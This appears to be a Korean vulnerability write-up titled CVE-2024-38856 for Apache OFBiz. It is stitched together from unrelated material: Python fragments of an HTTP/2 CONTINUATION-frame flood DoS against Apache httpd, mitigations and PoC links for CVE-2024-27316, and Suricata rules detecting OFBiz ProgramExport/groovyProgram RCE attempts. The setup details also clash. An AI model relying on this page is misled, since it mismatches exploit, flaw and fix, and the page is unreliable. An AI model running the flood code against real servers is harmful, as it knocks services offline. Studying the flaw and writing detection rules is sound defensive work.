

# cve-2024-38856
{: .no_toc }

Apache OFBiz Incorrect Authorization 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Apache OFBiz에서 특정 화면 정의(screen definitions)파일이 사용자의 권한을 명시적으로 검증하지 않고, 엔드포인트 설정에 의존하여 접근을 허용해 화면 렌더링 코드를 실행할 수 있는 취약점

## 1.2 취약 대상
Apache OFBiz 버전 18.12.14 이전

## 1.3 공격 원리
- Apache OFBiz의 웹 애플리케이션에서 엔드포인트를 스캔하여 취약한 엔드포인트 식별
- 취약한 엔드포인트를 통해 접근한 공격자는 관련된 화면 정의 파일에 접근
- 화면 정의 파일에 포함된 화면 렌더링 코드를 악용하여 임의의 악성 코드를 실행


---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1) <br>

Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
apt-get update
apt-get upgrade
sudo apt install openjdk-11-jdk
sudo apt install gradle ## gradle이란?

cd /usr/local/src
wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.04.zip
unzip apache-ofbiz-18.12.04.zip

cd /usr/local/src/apache-ofbiz-18.12.04/gradle/wrapper
wget https://raw.githubusercontent.com/gradle/gradle/v5.0.0/gradle/wrapper/gradle-wrapper.properties
wget https://github.com/gradle/gradle/raw/v5.0.0/gradle/wrapper/gradle-wrapper.jar

cd /usr/local/src/apache-ofbiz-18.12.04
./gradlew cleanAll loadAll
./gradlew cleanAll "ofbiz --load-data readers=seed,seed-initial" loadAdminUserLogin -PuserLoginId=admin 
./gradlew ofbiz 

## 참고 사이트 : https://tecadmin.net/steps-to-install-apache-ofbiz-on-linux-system/
```

<br>구현 된 홈페이지 (192.168.56.1:443)


---

## 1.5 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing <br>

### import 추가 
{: .no_toc }

```py
from hpack import Encoder
import threading
from hyperframe.frame import HeadersFrame, ContinuationFrame, SettingsFrame, WindowUpdateFrame
import socket
import ssl
from multiprocessing import Process, current_process
```

### hpack을 사용하여 header 크기 압축 
{: .no_toc }

```py
def hpack_header(i):
    encoder = Encoder()
    name = f'ssssssssssssssssssssshhhhhhhhhhhhhhhhhhhhhhhwwwwwwwwwwwwwwwwwshwshwssssssssshhhhhhhhhhhwwwwwwwwwwww{i}'
    value = f'03310331033198989803319898033198980331998980331033103310331989898033198980331989803319989803319898{i}'
    headers = [(name, value)]
    encoded_headers = encoder.encode(headers)
    return encoded_headers
```

### HTTP/2 프레임 반복 생성 후 전송
{: .no_toc }

```py
    i = 0
    while True:
        continuation_frame = ContinuationFrame(1)
        continuation_frame.data = hpack_header(i)
        continuation_frame.flags.add('END_HEADERS')
        sock.sendall(continuation_frame.serialize())
        i += 1
```

---

## 1.6 Apache 서버 DoS 공격 전후 시스템 상태 분석
Apache2 시스템 상태 모니터링

```
    content:"ProgramExport";
    pcre:"/ProgramExport|groovyProgram/i";
    http_client_body;


alert http any any -> any any (
    msg:"[ET]24-08-28 Apache OFBiz Pre-Auth RCE Attempt(ProgramExport)";
    flow:established,to_server;
    content:"POST";
    http_method;
    content:"|2F|webtools|2F|control|2F|";
    http_uri;
    pcre:"/^(?:TestService|view|showDateTime|main|forgotPassword)/Ri";
    content:"ProgramExport";
    nocase;
    http_client_body;
    reference:cve,2024-38856;
    classtype:attempted-admin;
    sid:24082801;
    rev:1;
)

alert http any any -> any any (
    msg:"[ET]24-08-28 Apache OFBiz Pre-Auth Remote Code Execution Attempt(groovyProgram)";
    flow:established,to_server;
    content:"POST";
    http_method;
    content:"|2F|webtools|2F|control|2F|";
    http_uri;
    pcre:"/^(?:TestService|view|showDateTime|main|forgotPassword)/Ri";
    content:"groovyProgram";
    nocase;
    http_client_body;
    reference:cve,2024-38856;
    classtype:attempted-admin;
    sid:24082802;
    rev:1;
)


alert http any any -> $HOME_NET any (
    msg:"ET WEB_SPECIFIC_APPS Apache OFBiz Pre-Auth Remote Code Execution Attempt (CVE-2024-38856)";
    flow:established,to_server;
    http.method;
    content:"POST";
    http.uri;
    content:"/webtools/control/";
    fast_pattern;
    startswith;
    pcre:"/^(?:TestService|view|showDateTime|main|forgotPassword)/R";
    content:"ProgramExport";
    endswith;
    http.request_body;
    content:"groovyProgram";
    startswith;
    reference:url,blog.sonicwall.com/en-us/2024/08/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability/;
    reference:cve,2024-38856;
    classtype:attempted-admin;
    sid:2054947;
    rev:1;
    metadata:affected_product Apache_OFBiz, attack_target Server, tls_state TLSDecrypt, created_at 2024_08_06, cve CVE_2024_38856, deployment Perimeter, deployment Internal, deployment SSLDecrypt, performance_impact Low, confidence High, signature_severity Major, updated_at 2024_08_06;
    target:dest_ip;
)
```

---

## 1.7 대응 방안
- Apache HTTP Server 버전 2.4.59 이상으로 업데이트
- nghttp2 라이브러리의 메모리 관리 로직 개선
- HTTP/2 프로토콜을 비활성화

--- 

## 1.8 참고 자료
- <a href="https://github.com/aeyesec/CVE-2024-27316_poc" target="_blank">PoC - Apache</a> <br>
- <a href="https://github.com/lockness-Ko/CVE-2024-27316" target="_blank">PoC - DoS</a>

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-38856
[Apache]: https://ofbiz.apache.org/security.html
